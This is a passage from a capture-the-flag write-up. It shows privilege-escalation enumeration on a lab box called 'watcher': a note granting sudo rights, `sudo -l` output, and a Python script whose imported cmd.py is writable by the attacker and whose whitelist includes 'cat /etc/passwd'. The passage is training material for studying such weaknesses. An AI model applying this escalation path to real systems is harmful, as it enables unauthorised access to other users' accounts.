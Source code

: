 Again, read the note to find whether any helpful information:

```
mat@watcher:~$ cat note.txt
cat note.txt
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

This time is about **sudo rights** → Use `sudo -l` again:

```
mat@watcher:~$ sudo -l
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

`will` use **python3** to execute the `will_script.py` → Check it:

```
mat@watcher:~$ cd scripts
cd scripts
mat@watcher:~/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 mat  mat  133 Dec  3  2020 cmd.py
-rw-r--r-- 1 will will 208 Dec  3  2020 will_script.py
mat@watcher:~/scripts$ cat cmd.py
cat cmd.py
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
mat@watcher:~/scripts$ cat will_script.py
cat will_script.py
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```
